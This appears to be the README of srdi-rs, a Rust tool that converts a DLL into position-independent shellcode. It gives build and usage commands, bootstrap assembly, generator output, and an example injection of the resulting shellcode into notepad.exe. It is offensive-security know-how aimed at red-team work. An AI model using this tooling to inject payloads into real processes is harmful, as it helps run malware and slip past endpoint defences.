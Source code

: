 # Shellcode Reflective DLL Injection (sRDI)

## Description

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent code which can then be injected using our favourite shellcode injection and execution technique.

## Usage

0). [Install Rust](https://www.rust-lang.org/tools/install)

1). Build all of the projects

```
cargo build --release
```

2). Generate the shellcode.

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe -h
Shellcode Reflective DLL Injection (sRDI)

Usage: generate_shellcode.exe [OPTIONS] --loader <LOADER> --payload <PAYLOAD> --function <FUNCTION> --parameter <PARAMETER> --output <OUTPUT>

Options:
      --loader <LOADER>        The reflective loader DLL path (loader.dll)
      --payload <PAYLOAD>      The payload DLL path (payload.dll)
      --function <FUNCTION>    The function to execute inside payload.dll (SayHello)
      --parameter <PARAMETER>  The parameter to pass to the function inside payload.dll (https://localhost:1337/)
      --output <OUTPUT>        The output file path (shellcode.bin)
      --flags <FLAGS>          The 0x0 flag will execute DllMain and any other flag will execute the function inside payload.dll (SayHello) [default: 1]
  -h, --help                   Print help
  -V, --version                Print version
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

3). Bring your own injector (BYOI) and inject the position-independent code with your favourite injection and execution technique.

```
inject.exe <process> <shellcode.bin>
```

## Description

The bootstrap shellcode:

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5
mov dword ptr [rsp + 0x28], <flags>

mov r9, <parameter_length>
add r8, <parameter_offset> + <payload_length>
mov edx, <parameter_hash>
add rcx, <payload_offset>

call <loader_offset>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

[![sRDI](./sRDI.png)](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

**Credits: [Nick Landers @(monoxgas)](https://github.com/monoxgas)**

## Example

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe --loader .\reflective_loader.dll --payload .\payload.dll --function SayHello --parameter https://127.0.0.1:1337/ --flags 0 --output shellcode.bin
Loader Path: .\reflective_loader.dll
Payload Path: .\payload.dll
Output Path: shellcode.bin
[+] Reflective Loader Offset: 0x400
[!] Bootstrap Shellcode Length: 79 (Ensure this matches BOOTSTRAP_TOTAL_LENGTH in the code)
[+] Reflective Loader Length: 3584
[+] Payload DLL Length: 113664
[+] Total Shellcode Length: 117350
[*] loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)
[*] arg1: rcx, arg2: rdx, arg3: r8, arg4: r9, arg5: [rsp + 0x20], arg6: [rsp + 0x28]
[*] rcx: 0xe4a rdx: 0x756de3c6 r8: https://127.0.0.1:1337/, r9: 0x17, arg5: ???, arg6: 0
```

```
.\inject.exe --process notepad.exe --file .\shellcode.bin
```

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/